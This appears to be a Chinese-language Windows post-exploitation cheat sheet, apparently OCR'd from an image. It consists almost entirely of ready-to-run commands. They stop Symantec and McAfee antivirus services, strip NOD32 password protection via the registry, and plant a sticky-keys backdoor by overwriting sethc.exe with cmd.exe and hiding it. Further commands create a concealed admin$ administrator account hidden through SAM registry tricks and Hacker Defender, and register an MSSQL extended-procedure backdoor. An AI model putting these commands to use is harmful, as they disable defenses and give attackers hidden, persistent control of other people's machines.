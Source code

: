 net stop "Symantec Settings Manager" /y

 

麦咖啡：

net stop "McAfee McShield"
Symantec病毒日志:

C:\Documents and Settings\All Users\Application Data\Symantec\Symantec Endpoint Protection\Logs
 

Symantec病毒备份:

C:\Documents and Settings\All Users\Application Data\Symantec\Symantec Endpoint Protection\Quarantine
 

Nod32病毒备份:

C:\Docume~1\Administrator\Local Settings\Application Data\ESET\ESET NOD32 Antivirus\Quarantine
Nod32移除密码保护:

删除“HKEY_LOCAL_MACHINE\SOFTWARE\ESET\ESET Security\CurrentVersion\Info\PackageID”即可

* 安装5次shift后门，沾滞键后门，替换SHIFT后门：

5次SHIFT，沾滞键后门：

copy %systemroot%\system32\sethc.exe %systemroot%\system32\dllcache\sethc1.exe
copy %systemroot%\system32\cmd.exe %systemroot%\system32\dllcache\sethc.exe /y

copy %systemroot%\system32\cmd.exe %systemroot%\system32\sethc.exe /y

替换SHIFT后门：

attrib c:\windows\system32\sethc.exe -h -r -s
attrib c:\windows\system32\dllcache\sethc.exe -h -r -s

del c:\windows\system32\sethc.exe

copy c:\windows\explorer.exe c:\windows\system32\sethc.exe

copy c:\windows\system32\sethc.exe c:\windows\system32\dllcache\sethc.exe

attrib c:\windows\system32\sethc.exe +h +r +s

attrib c:\windows\system32\dllcache\sethc.exe +h +r +s

添加隐藏系统账号：

1、执行命令：

“net user admin$ 123456 /add&net localgroup administrators admin$ /add”。
2、导出注册表SAM下用户的两个键值。

3、在用户管理界面里的 admin$ 删除，然后把备份的注册表导回去。

4、利用 Hacker Defender 把相关用户注册表隐藏。

安装 MSSQL 扩展后门：

USE master;
EXEC sp_addextendedproc 'xp_helpsystem', 'xp_helpsystem.dll';
